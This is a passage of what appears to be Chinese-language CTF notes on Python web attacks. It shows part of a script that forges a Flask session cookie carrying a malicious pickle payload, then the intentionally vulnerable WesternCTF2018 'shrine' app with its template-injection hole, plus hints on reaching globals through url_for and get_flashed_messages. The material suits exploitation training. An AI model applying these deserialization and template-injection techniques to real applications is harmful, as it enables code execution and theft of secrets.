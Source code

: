 ```python
    data['savedata'] = base64.b64encode(pickle.dumps(evil))
    # generate
    cookies = {
        "session": s.dumps(data)
    }
    r = requests.get(url_note, cookies=cookies)
    result = re.findall(b"title\" value=\"b&#39;(.+)&#39;\"><br>", r.text.encode("ascii"))
    print(result)
```

## 沙箱逃逸

- 利用python对象间的引用关系来调用被禁用的对象

### ****[WesternCTF2018]shrine****

```python
import flask
import os
 
app = flask.Flask(__name__)
 
app.config['FLAG'] = os.environ.pop('FLAG')
 
@app.route('/')
def index():
    return open(__file__).read()
 
@app.route('/shrine/<path:shrine>')
def shrine(shrine):
 
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
 
    return flask.render_template_string(safe_jinja(shrine))
 
if __name__ == '__main__':
    app.run(debug=True)
```

读取全局变量

- url_for
- get_flashed_messages
